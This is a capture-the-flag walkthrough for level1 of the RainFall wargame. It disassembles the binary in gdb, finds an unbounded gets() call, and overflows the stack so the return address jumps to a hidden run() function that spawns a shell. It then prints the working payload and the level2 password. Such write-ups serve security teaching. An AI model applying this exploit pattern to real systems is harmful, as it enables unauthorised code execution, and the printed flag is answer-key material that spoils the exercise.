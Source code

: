 # Level 0

- Once logged in, you will see a binary `level1`

```
[???] $ ssh level1@localhost -p 4242
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$ ls
level1
level1@RainFall:~$
```

let's run this and see what this does
```
level1@RainFall:~$ ./level1

```

okay, it seems it tries getting input, so let's try typing something

```
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$
```

It does nothing :/, so let's run gdb to see what's going on

```
level1@RainFall:~$ gdb level1
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
gdb-peda$
```

seems there must be some more, and we can check the list of functions by the command on gdb: `info functions`

```
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_glo
```
there are some system calls and some, but we see a function `run`. let's check the function

```
gdb-peda$ disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
gdb-peda$
```

Now, the function `run` is initialized, but there is no way the function `run` is called. But on main, we can see the `gets` function is used. The `gets` function has a vulnerbility, as the input of the gets is not lengthed:

ref: https://linux.die.net/man/3/gets
```
...
Bugs
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
...
```

by it means, we can use the buffer overflow, that in between where `gets` function is called, and once it returns back to the main function, we can modify the memory on the stack to `return` to the main function. Of course, we need to figure out the right location to put the address of `run`, and it will be the `EIP` register.

back to the `main`, the whole stack frame is allocated by beginning of stack by `0x50` (=80 in decimal)

```
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50 <- here
   0x08048489 <+9>:     lea    eax,[esp+0x10]
```
so just try running the program with the random parameter of 80 and see how it works:

```
level1@RainFall:~$ python -c "print 'A' * 80" | ./level1
Segmentation fault (core dumped)
```

it gives out the segmentation fault. checking on the debugger, we can see the EIP is overwritten the character `AAAA`

```
gdb-peda$ run <<< $(python -c "print 'A' *80")

[----------------------------------registers-----------------------------------]
EAX: 0xbffff6b0 ('A' <repeats 80 times>)
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xb7fd28c4 --> 0x0
EDX: 0xbffff6b0 ('A' <repeats 80 times>)
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 --> 0x0
0004| 0xbffff704 --> 0xbffff794 --> 0xbffff8b3 ("/home/user/level1/level1")
0008| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0012| 0xbffff70c --> 0xb7fdc858 --> 0xb7e2c000 --> 0x464c457f
0016| 0xbffff710 --> 0x0
0020| 0xbffff714 --> 0xbffff71c --> 0x0
0024| 0xbffff718 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0028| 0xbffff71c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

If we replace `AAAA` by the address of the function `run`, instead of segfault caused from invalid return address, the run fuction will be executed.

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat -) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

